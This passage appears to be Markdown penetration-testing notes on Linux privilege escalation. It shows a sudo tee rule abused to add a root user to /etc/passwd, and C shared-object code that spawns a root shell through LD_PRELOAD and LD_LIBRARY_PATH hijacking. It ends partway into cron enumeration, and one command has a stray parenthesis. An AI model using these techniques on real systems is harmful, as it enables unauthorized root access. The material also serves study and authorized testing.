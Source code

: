 Path traversal:
1. `sudo -l` > `(ALL) NOPASSWD: /usr/bin/tee /var/log/httpd/*`
2. add new user 'toor:password' > `echo "toor:$(openssl passwd password):0:0:root:/root:/bin/bash") | sudo tee /var/log/httpd/../../../etc/passwd`

**Environment Variables**
- `sudo -l` check which environment variables are inherited, look for the `env_keep` options
  - `LD_PRELOAD` loads a shared object before any others when a program is run 
  - `LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first
- First solution
  - Create a shared object with `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c`, use the code below
    ```C
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
  
    void _init() {
    	unsetenv("LD_PRELOAD");
    	setresuid(0,0,0);
    	system("/bin/bash -p");
    }
    ```
  - `sudo LD_PRELOAD=/tmp/preload.so <program name>` Run one of the programs you are allowed to run via sudo while setting the `LD_PRELOAD` environment variable to the full path of the new shared object
- Second solution, with `apache`
  - See which shared libraries are used by apache `ldd /usr/sbin/apache2`
  - Create a shared object with the same name as one of the listed libraries, `gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/library_path.c`
  - ```C
    #include <stdio.h>
    #include <stdlib.h>
    
    static void hijack() __attribute__((constructor));
    
    void hijack() {
    	unsetenv("LD_LIBRARY_PATH");
    	setresuid(0,0,0);
    	system("/bin/bash -p");
    }
    ```
  - Run `apache2` using sudo, while settings the `LD_LIBRARY_PATH` environment variable to `/tmp`, where the output of the compiled shared object is

**sudoedit**
If you find Sudo < 1.8.15 and something like: `(root) NOPASSWD: sudoedit /home/*/*/recycler.ser`
- CVE-2015-5602, see https://al1z4deh.medium.com/proving-grounds-cassios-4686e6fa8df6

### Cron Jobs

Run:
- `cat /etc/crontab`, `crontab -l`, `pspy`
- `grep "CRON" /var/log/syslog`
- 
